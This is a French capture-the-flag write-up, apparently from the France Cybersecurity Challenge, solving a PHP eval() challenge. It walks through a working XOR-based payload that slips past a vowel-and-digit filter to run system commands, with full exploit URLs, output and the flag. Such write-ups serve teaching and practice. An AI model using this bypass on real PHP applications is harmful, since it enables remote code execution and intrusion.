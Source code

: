 <center><b>Lipogrammeurs</b></center>
=================
</br>
<blockquote>Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?
</blockquote>

Nous arrivons donc sur une page web ne contenant que ce code php :

     <?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }

Le code va vérifier le paramètre que l'on donne à 'code' pour soit retourner une erreur soit executer ce que l'on a mis en paramètre.
<br><br>
On devine alors que la faille se situe au niveau de la fonction eval(), mais on devine aussi que preg_match() va filtrer chaque caractère que l'on va entrer, ce qui va compliquer l'exploitation de la faille.
<br>
Notre payload ne doit donc pas être constitué de voyelles ou encore de nombres.
<br>
J'ai alors utilisé ce payload : 
    
    "";$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

Ce payload est equivalent à :
    
    $_= '$<>/' ^ '{{{{'; // $_ = '_GET'
    ${_GET}[_](${_GET})[__];
    $_GET[_]($_GET[__])

Après il suffit d’envoyer en GET nos commande comme ceci :  
    
    _=system&__=ls%20-a

Notre lien final devrai donc ressembler à ça :

    http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%22%22;$_=%27$%3C%3E/%27^%27{{{{%27;${$_}[_](${$_}[__]);&_=system&__=ls%20-a

Nous obtenons donc comme réponse 

    . .. .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php index.php

Tiens, voilà un fichier intéressant, essayons de le lire.

    http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%22%22;$_=%27$%3C%3E/%27^%27{{{{%27;${$_}[_](${$_}[__]);&_=system&__=cat%20.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php

On affiche le code source, et paf notre flag :

    FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
